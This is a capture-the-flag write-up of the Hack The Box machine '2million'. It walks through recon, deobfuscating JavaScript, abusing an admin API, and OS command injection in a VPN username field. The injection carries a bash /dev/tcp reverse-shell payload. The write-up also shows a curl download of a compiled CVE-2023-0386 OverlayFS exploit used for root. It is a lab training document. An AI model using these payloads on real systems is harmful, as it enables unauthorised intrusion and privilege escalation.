


---
tags:
  - Linux
  - HTTP
  - JavaScript
  - OS-command injection
  - CVE
---

... is an easy HTB machine which allows you to log into a `http` service after finding a secret endpoint in an obfuscated `js` file. Further enumerating the `api` displays an option to create a `OpenVPN` file, which is vulnerable to OS command injection. For the privilege escalation, a CVE can be used which is hinted within an email.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This is a very typical setup of a web-vulnerability type CTF. The output of the `http-title` `nmap` script tells us that the domain name `2million.htb` is present. To quickly edit the `/etc/hosts` file for local DNS name resolution without a public DNS server, the following command appends an entry to that file:
```bash
echo "$IP 2million.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

After visiting `http://2million.htb`, i am greeted with a `Hack The Box` page. I searched the page source for `href`'s and HTML comments `<!--`. The `href`'s reveal the endpoints `/login` and `/invite`. The Network tab of the developer tool shows a lot of calls towards `www.hackthebox.eu` and `www.youtube.com`, so i sort by domain to only see the entries which relate to the domain `2million.htb`. It reveals the `/js/htb-frontpage.min.js`. To view it in `firefox`, the `Debugger` tab of the developer tools allows you to select that file and show it in pretty mode (using the `{}` button). That `js` file reveals all functions on the site, which are mainly for displaying the elements.

I decide to investigate the endpoints `/login` and `/invite`. The login form seems to be a dead end, as simple SQL injection queries do not work and default credentials are also not able to log me in.

### Initial Exploitation
The `/invite` endpoint reveals something in the developer tools. This endpoint additionally references the `js` file `/js/inviteapi.min.js`! It doesn't reveal any information though as it is written very weirdly:
```js
eval(
  function (p, a, c, k, e, d) {
    e = function (c) {
      return c.toString(36)
    };
    ...
```

A quick google session reveals that `JS` files are sometimes obfuscated to hide information hidden in the functions which the users are not supposed to view. A very nice online tool called [de4js](https://thanhle.io.vn/de4js/) allows you do undo multiple approaches to `js` obfuscation. I inserted the weird `js` file and clicked on `Auto Decode`. That gave me the two `js` functions `verifyInviteCode` and `makeInviteCode`. 
The `verifyInviteCode` is not as interesting, as the `js` clear-text code is already included in the `view-source` tab. That function simply sends a `POST` request to the endpoint `/api/v1/invite/verify` when pressing the `Sign Up` button, and checks the response if the verification worked. This behavior can also be seen when intercepting the request using `burpsuite`.
`makeInviteCode` on the other hand is a bit more interesting, as it reveals a new endpoint. It sends a `POST` request to the endpoint `/api/v1/invite/how/to/generate` without `POST` data.

To make use of this hidden function, i make use of the `Console` tab in the developer options, as that allows me to invoke that method:


This returns the following `javascript object`:
```json
{
	data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", 
	enctype: "ROT13" 
}
```
I search for a `ROT13 decoder` online to view the message. The decoded message tells me to make a `POST` request to the endpoint `/api/v1/invite/generate`, so i quickly do so in `burp`'s repeater. Doing so gives me yet another `javascript object`:
```json
{
	"0":200,
	"success":1,
	"data":{
		"code":"NUFN...",
		"format":"encoded"
	}
}
```
As the value of `code` looks like `base64`, i get its value using this bash command:
`echo "NUFN..." | base64 -d`.
That gives me the invite code! I can use that on the `/invite` endpoint to create an account and log in with that.

After logging on i can see a lot of buttons on the side but most of them redirect me to `href="#"`, which means that there is no actual endpoint behind those buttons. To find out what endpoints i can actually find, i `CTRL+F` the page source for `href="/`. The following endpoints were found:

- `/home/rules`: displays a set of rules for CTFs in general
- `/home/changelog`: A list of changes to this site with each version
- `/home/access`: Allows you to generate a VPN file for the network.

The `/home/access` endpoint is most interesting, as it offers more user interaction than the other ones. The `view-source` page reveals that i can interact with these three endpoints:

- `/api/v1/user/vpn/generate`
- `/api/v1/user/vpn/regenerate`
- `/api/v1/user/vpn/download`

But all of these seem to achieve the same goal of requesting the `VPN` file, which i receive for downloading.

At this point i decided to see what the `/api` endpoint answers to the requests if i take away sub-endpoints (e.g. `/api/v1/user/vpn`, `/api/v1/user`, ...). And it turns out, that requesting `/api/v1` reveals all `/api` endpoints, even ones i haven't seen before. The most interesting ones are these:
```json
"admin":{
	"GET":{
		"\/api\/v1\/admin\/auth":"Check if user is admin"
	},
	"POST":{
		"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"
	},
	"PUT":{
		"\/api\/v1\/admin\/settings\/update":"Update user settings"
	}
}
```
Sending a `GET` request to `/api/v1/admin/auth` returns the `"message":false`, which tells me that my current user is not an admin. I can try to elevate him to admin by messing with the `PUT /api/v1/admin/settings/update` endpoint. Simply changing my `GET` request doesn't work, as the `Content-type` is invalid (currently none). As the server has been responding with `JSON` objects, i add the header `Content-type: application/json` to my request. That gives me more error messages that the `email` and `is_admin` parameters are missing. I edit my request in `burpsuite`'s Repeater so that it looks something like this:
```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Content-type: application/json
...

{
	"email":"attacker@2million.htb",
	"is_admin":1
}
```

After sending this `PUT` request, i issue a second `GET` request to `/api/v1/admin/auth`, but now it returns the `"message":true`!

This means that i can access the `POST /api/v1/admin/vpn/generate` endpoint! The request roughly looks like this:
```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Content-type: application/json
...

{
	"username":"attacker"
}
```
Messing with the value of `"username"` changes the following values in the VPN file:
```bash
Subject: C=GB, ST=London, L=London, O="attacker", CN="attacker"
```
I have previously set up an `OpenVPN` server using [this digital ocean tutorial](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-configure-an-openvpn-server-on-ubuntu-20-04). What i still know from that, is that you need a specific set of operating system commands to generate a `.ovpn` for a client, which is why it is usually done in a automated `.sh` script as follows:
```bash
./make_config.sh client1
```
As the value `client1` in this bash command is being controlled by us in the `POST /api/v1/admin/vpn/generate` endpoint, it is worth trying to append operating system commands onto the name that get executed after the creation of the `config` file like this: 
`./make_config.sh client1; whoami` or
`./make_config.sh client1 && whoami`.

To test if this theory works, i edit the `"username"` value in the `POST` request as follows:
`{ "username":"attacker; ping -c 3 <my-IP>" }`.
If these 3 `ping` packages are received by my machine, i know for sure that this worked. To verify the arrival of the `ICMP` packages, the following command listens for those:
```bash
sudo tcpdump -i tun0 icmp
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: is required for packet inspection
# -i: specify the interface. the HTB VPN uses tun0
# icmp: listen for Internet Control Message Protocol (in short, ping) messages
```

And surely enough, i receive `ping` packets from `2million.htb`!

To turn this into a reverse shell, i edit the `"username"` value to be an reverse-shell initiator:
```json
{
	"username":"attacker; bash -c '/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1'"
}
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# bash -c: wraps the following command so that it explicitly gets executed by bash, not the current shell
# /bin/bash -i: launch the bash binary in interactive mode
# >&: redirect standard output and standard error to:
# /dev/tcp/<IP>/port: when the bash binary opens this path, it creates a TCP connection!
# 0>&1: STDIN (0) gets redirected (>) to where STDOUT (1) is pointing
```

After starting my listener like this:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

and sending the payload, i receive a reverse shell as `www-data`! I am not allowed to read the flag at `/home/admin/user.txt` as `www-data`, which is why i to get `SSH` access to the `admin` user!

### Lateral Movement
As the user `www-data` is only a service account, it has very limited capabilities on the system. An actual user account within the `/home` directory is much more preferable.
The user `admin` has a home directory, which is why i assumed that i need his account to gain `ssh` access to the machine. `ssh` access is always better than a reverse shell, as it is fully interactive. It is always possible to upgrade the reverse shell with a [neat trick](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but `ssh` access to an actual account is always preferable.

The received shell puts me into the directory `/var/www/html`, which is typically the home directory of the service account. One file that instantly catches my eye in that directory is the `Database.php` file. It seems to be taking values from `$user` and `$pass` to automatically initiate an `mysqli` connection and send queries to it. The command `ls -la` then reveals the hidden `.env` file, which stores the credentials `admin:SuperDuperPass123`. I try these credentials for the `ssh` access, which actually works.

### Privilege Escalation
Now would be the time to try the usual `privesc` vectors, but i notice something strange when logging in via `ssh`. I receive the message `You have mail`. [This](https://superuser.com/questions/306163/what-is-the-you-have-new-mail-message-in-linux-unix) superuser question talks about this exact scenario.

I use the information there to read the file `/var/mail/admin`. It tells me that a `nasty CVE` in the `OverlayFS / FUSE` program exists and that the admin should upgrade the OS on the web host.

That mail probably referenced `CVE-2023-0386`, which allows regular users to become `root`! [This article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) explains it pretty well. To sum it up, the kernel copied files from a overlay file system to the upper directory without checking if this the owner of the file existed in the current user namespace. This is possible if the output of `uname -r` (kernel version) is lower than 6.2. The kernel version on the target is `5.15.70-051570-generic`, which makes it theoretically vulnerable.

#### Excursion to explain `MountFS`
This serves as a short deep-dive into this topic, feel free to skip it, if it is already known.To understand what that means i researched the overlay file-system in linux. The base idea is this:

- `Lower layer directory`: usually a read-only directory which is often the `"base"` file-system `/`.
- `Upper layer directory`: A writable directory which accepts changes.
- `/workdir`: A directory which is used for internal bookkeeping.
- `Merged directory`: A directory which merges the `Upper-` and `Lower Level` directories.

Lets assume this directory structure based on that idea:
```bash
.
├── lower
│   ├── home
│   │   └── lower-user
│   └── tmp
│       └── lower-file
├── upper
│   └── upper-file
└── workdir
    └── work
```

Now lets say, the merged directory is located at `/tmp/merged`. It can then be merged using this command (undo with `umount /tmp/merged`):
```bash
sudo mount overlay -t overlay -o lowerdir=/path/to/lower,upperdir=/path/to/upper,workdir=/path/to/workdir /tmp/merged
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# "overlay": source device. useful on other filesystems, e.g. /dev/sda1 as the source device. this value is mostly ignored by overlayFS.
# -t: type of filesystem. here an overlay fs is chosen. The different types can be found at cat /proc/filesystems
# -o: overlayFS specific mount options. specify the paths to lower-, upper-, and workdir.
# /tmp/merged: directory which acts as the mount point, e.g. merged directory
```

The merged directory `/tmp/merged` now has the following structure:
```bash
/tmp/merged
├── home
│   └── lower-user
├── tmp
│   └── lower-file
└── upper-file
```
It shows all contents of the lower and upper directories in one directory.

Now the last question remains is how these directories act when interacted with.
##### `Scenario 1` 
If the `/path/to/lower` or `/path/to/upper` gets edited, those changes are also copied to the `/tmp/merged`. That means that this:
```bash
.
├── lower
│   ├── home
│   │   └── lower-user
│   └── tmp
│       ├── lower-file
│      '└── lower-file2'
├── upper
│   ├── upper-file
│  '└── upper-file2'
└── workdir
    └── work 
```
Leads to changes in `/tmp/merged` as follows:
```bash
/tmp/merged
├── home
│   └── lower-user
├── tmp
│   ├── lower-file
│  '└── lower-file2'
├── upper-file
└'─ upper-file2'
```
Lets revert these changes (they also get reverted in `/tmp/merged`) and try the next scenario:

##### `Scenario 2` 
If the merged upper `/tmp/merged` gets edited, the changes are only reflected to `/path/to/upper`. Adding this file:
```bash
/tmp/merged
├── home
│   └── lower-user
├── tmp
│   └── lower-file
├── upper-file
└'─ upper-file-MERGE'
```
Results in the following changes in the original directories:
```bash
.
├── lower
│   ├── home
│   │   └── lower-user
│   └── tmp
│       └── lower-file
├── upper
│   ├── upper-file
│  '└── upper-file-MERGE'
└── workdir
    └── work
```
Reverting the change in `/tmp/merge` also reverts the change in `/path/to/upper`.

##### `Scenario 3`
This is the most interesting scenario. Here, the `lower` directory in the `/tmp/merged/tmp` is edited. What happens is interesting:
```bash
/tmp/merged
├── home
│   └── lower-user
├── tmp
│   ├── lower-file
│  '└── lower-file-MERGE'
└── upper-file
```
Actually results in the following changes to the actual directories:
```bash
.
├── lower
│   ├── home
│   │   └── lower-user
│   └── tmp
│       └── lower-file
├── upper
│  '├── tmp'
│  '│   └── lower-file-MERGE'
│   └── upper-file
└── workdir
    └── work
```
The new file gets created inside the `upper` directory instead of the `lower` directory, so the changes to the mount-point behave differently when changing the `lower` directory.

Below is a short summary of this behavior:

- Editing `/lower` OR `/upper` reflects the changes in `/tmp/merged`.
- Editing `/tmp/merged/upper` reflects the changes in `/upper`.
- Editing `/tmp/merged/lower` also reflects the changes in `/upper`.

The most common use of this functionality is containers like `Docker`. They can then modify files with a safety net (rollback by discarding upper layer).

#### Back to the privesc
To elevate your privileges, it is possible to create a virtual file system (`FUSE`) on the target which holds a binary which simply starts `/bin/bash`. That binary is owned by the `root` inside the `FUSE`, and has the `SetUID` bit set, so executing it as a normal user starts the `/bin/bash` binary as the owner, so `root`.

To move this evil binary from the `FUSE` to the targets actual file system, the `FUSE` can be marked as the `lower` directory in a `OverlayFS`, with the real file system being the `upper` directory. If the evil binary gets created or edited, it is automatically copied onto the file-system. As it is owned by `root` with a `SetUID`, it is also owned by `root` with a `SetUID` on the target! 

This `privesc` has been automated in [this](https://github.com/DataDog/security-labs-pocs/tree/main/proof-of-concept-exploits/overlayfs-cve-2023-0386) github repository. To build this `poc.c`, i need `apt install libfuse-dev`, but `kali` only offers `libfuse3-dev`, which does not work for this include.

So i quickly install `docker` on my `kali` machine like this:
```bash
sudo apt install docker.io
# ...
sudo systemctl enable docker
```
And start a `debian` container like this:
```bash
sudo docker run -it --rm debian:bookworm bash
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: docker requires elevated privileges to access the docker daemon
# docker run: create a new container from an image and start it immediately
# -i: interactive mode, lets you start an interactive bash
# -t: TTY, enables arrow key usage and proper formatting
# --rm: removes the container if it already exists
# bash: the command to run, gives me a shell instantly
```

Within that container, i issue these commands to install `libfuse-dev` and `gcc`:
```bash
apt update
apt install libfuse-dev
apt install gcc
```

This gives me the needed tools to compile the `poc.c` file from the github mentioned before as follows (instructions were followed for compilation):
```bash
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl
```
I can then copy this `poc` binary onto my local system like this:
```bash
sudo docker cp <container-ID>:/tmp/poc .
```

I can then get this `poc` binary onto the target by serving it via `python3 -m http.server 1337` and downloading it via `curl -O http://<my-ip>:1337/poc`

After making this `poc` binary executable and executing it, the `admin` user becomes `root`!

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `root` worked as follows:

